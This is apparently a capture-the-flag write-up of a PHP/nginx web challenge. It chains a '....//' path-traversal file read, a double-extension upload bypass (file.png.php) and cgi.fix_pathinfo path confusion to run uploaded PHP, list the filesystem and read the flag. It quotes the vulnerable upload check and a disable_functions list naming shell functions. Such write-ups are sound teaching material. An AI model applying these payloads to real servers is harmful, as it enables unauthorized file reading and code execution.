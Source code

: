 # Writeup

### 1. Overview

At first glance at the website, we can expect that the challenge will have something to do with **(mis)configuration**.

There are two buttons: "Prices" and "Contact".

1. "Prices" takes us to `/prices.php`. There is another button redirecting to `get.php?file=php.ini`. The content is indeed some `php.ini` file.

2. On `/contact.php` there is a form expecting an email, a message, and a file (*supposedly* only `.png` and `.jpg` allowed).

### 2. LFI

Trying `get.php?file=....//....//....//....//etc/passwd` returns the passwd file! We can try to read some common files.

Using this technique we can get:
- the source code, specifically `contact.php` could be helpful:
    - `file=....//contact.php`
- the configuration files:
    - `/etc/nginx.conf`
    - `/etc/nginx/conf.d/default.conf`
    - `/etc/php83/php.ini`

These are the three files appearing in the `Dockerfile` attached to the challenge, so we didn't have to guess anything.

Based on the content of that `Dockerfile`, we also know that the flag is in a directory named with a random UUID, so we cannot get it with this LFI.

Note: The above payload works because `str_replace('../', '', $_GET['file'])` is called on the arg, which turns `....//....//....//....//etc/passwd` into `../../../../etc/passwd`.

### 3. Trying out the form

Before looking at the configuration files, let's look at the form on `/contact.php`.

We can take a look at the **source code** which we got from the LFI.

Firsts of all, the `email` and `message` fields just have to exist, but are not used for anything:

```php
# TODO: Send email with message and file url
```

So the only remaining thing is the file upload, and we should focus on that.

```php
# Check file extension
$allowed = array('png', 'jpg');
$filename = $file['name'];
$ext = explode(".", $filename)[1];
if (!in_array($ext, $allowed)) {
    echo 'Invalid file type! Only .png and .jpg files are allowed.';
    return;
}
```

This check **can be bypassed** by naming a file `file.png.php` - that's promising, so let's try uploading!

### 4. File upload

Let's upload a file named `file.png.php` containing some simple PHP, like:

```php
<?php
    echo ("abc");
?>
```

After uploading the file we get a link to `uploads/file.png.php`.

However, upon visiting it, the PHP code is not executed - we see the raw content.

There is a header `Content-Disposition: attachment; filename=file.png.php` present on the response.

### 5. Looking at the configuration

There are some interesting lines in `/etc/nginx/conf.d/default.conf`:

```conf
location ~ \/uploads\/([^/]+)\.php$ {
    add_header Content-Disposition "attachment; filename=$request_basename";
}

# Pass the PHP scripts to PHP-FPM listening on php-fpm.sock
location ~ \.php$ {
    fastcgi_split_path_info ^(.+\.php)(/.+)$;
    fastcgi_pass unix:/run/php-fpm.sock;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    fastcgi_index index.php;
    include fastcgi_params;
}
```

If we somehow could make this file matched by the second location, going to the PHP CGI, and not the first - sending it as an attachment...

In the `php.ini` file, there is a line:

```conf
cgi.fix_pathinfo=1
```

This line *could* also be omitted, because this option is set to `true` by default.

It means that given a path like `/uploads/test.png.php/this-does-not-exist.php` the file `test.png.php` will get executed (this path **also** does not match the first location regex)!

### 6. Payload

So, to trigger the PHP code, all we have to do is visit `/uploads/test.png.php/<whatever>.php`.

We can confirm that the previous example with `echo` works. However, `system` fails, due to this line in `php.ini`:

```conf
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

It seems that RCE is probably off-limits. We can first list `/` using:

```php
<?php print_r (scandir('/')) ?>
```

And then, knowing the random directory, grab the flag:

```php
<?php include('/<random UUID>/flag') ?>
```
